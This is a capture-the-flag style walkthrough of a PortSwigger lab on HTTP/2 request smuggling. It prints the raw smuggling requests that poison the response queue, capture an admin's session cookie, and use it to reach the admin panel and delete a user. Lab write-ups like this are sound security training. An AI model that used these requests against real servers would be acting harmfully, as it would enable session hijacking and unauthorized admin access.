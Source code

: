 # Response queue poisoning via H2.TE request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling) is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## Reproduction and proof of concept

1. Intercept home page and send the request to Repeater. Set Repeater (top most menu) to `Allow HTTP/2 ALPN override`.
2. Expand the Inspector's Request Attributes section and change the protocol to `HTTP/2`.
3. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an `HTTP/2` request using chunked encoding. 

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```

4. Every second request sent, receives a 404 response, confirming that the back-end appends the subsequent request to the smuggled prefix.
5. Create a request, which smuggles a complete request to the back-end server. The path in both requests points to a non-existent endpoint. This means that the request will always get a `404` response. Once the response queue is poisoned, this will make it easier to recognise any other users' responses that have successfully been captured.

```text
POST /x HTTP/2
Host: lab-id.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: lab-id.web-security-academy.net


```

_Note: Terminate the smuggled request properly by including the sequence `\r\n\r\n` after the Host header._

6. Send the request to poison the response queue. 
7. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Response codes other than `404` indicate a response intended for the admin user has successfully been captured. Repeat the process until a `302` response is captured containing the admin's new post-login session cookie.

![HTTP header smuggling](../../_static/images/smuggling7.png)
    
_Note: If you receive some `200` responses but can't capture a `302` response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again. This whole process can take some time. It took me ten minutes._

6. Copy the stolen session cookie and use it to send a request to gain access to the `admin panel`:

```text
GET /admin HTTP/1.1
Host: 0a4900090385c6c5c058ef6800090039.web-security-academy.net
Cookie: session=hVyiIwVQdrDveY8dV6Il427xj1q8G17f
```

7. Send the request repeatedly until you receive a `200` response containing the admin panel.
8. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`), then update the path in the request accordingly. Send the request to delete Carlos.

![HTTP header smuggling](../../_static/images/smuggling8.png)

## Exploitability

An attacker will need to delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds. The connection to the back-end is reset every 10 requests. If the connection gets into a bad state, send a few normal requests to get a fresh connection. 
